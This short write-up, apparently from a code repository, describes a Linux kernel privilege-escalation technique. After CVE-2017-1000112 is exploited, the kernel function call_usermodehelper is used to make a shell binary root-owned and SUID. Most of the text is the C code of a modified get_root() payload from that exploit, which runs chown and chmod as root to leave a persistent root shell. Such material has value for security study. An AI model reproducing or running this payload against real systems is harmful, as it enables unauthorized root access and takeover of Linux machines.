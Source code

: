 call_usermodehelper
===================

The idea of using `call_usermodehelper()` function (UMH) is the following:
1) Create a shell binary
2) Exploit the vulnerability and use UMH to change shell's file properties so it will be owned by root:root with SUID bit set

Here is the modified `get_root()` function of the original CVE-2017-1000112 exploit:

~~~
void get_root(void) {
	void (*call_usermodehelper)(const char *, void *, void *, int) = (void *)X_call_usermodehelper;
	char *chown[] = { (char []){ "/bin/chown" }, (char []){ "0:0" }, (char []){ SHELL }, NULL };
	call_usermodehelper(chown[0], chown, NULL, 1);
	char *chmod[] = { (char []){ "/bin/chmod" }, (char []){ "+sx" }, (char []){ SHELL }, NULL };
	call_usermodehelper(chmod[0], chmod, NULL, 1);
}
~~~
